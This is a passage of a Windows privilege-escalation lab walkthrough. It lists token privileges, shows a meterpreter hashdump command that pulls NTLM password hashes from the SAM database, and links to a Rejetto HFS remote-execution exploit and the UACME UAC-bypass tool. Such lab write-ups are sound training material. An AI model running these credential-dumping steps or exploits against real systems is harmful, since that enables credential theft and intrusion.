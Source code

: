 ```
Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeTrustedCredManAccessPrivilege
SeUndockPrivilege

```

The hashdump post module will dump the contents of the SAM database.

```
meterpreter > hashdump
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Admin NTLM Hash: `4d6583ed4cef81c2f2ac3c88fc5f3da6`。


## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-2208.pdf

[Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)

[Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

[UACME](https://github.com/hfiref0x/UACME)


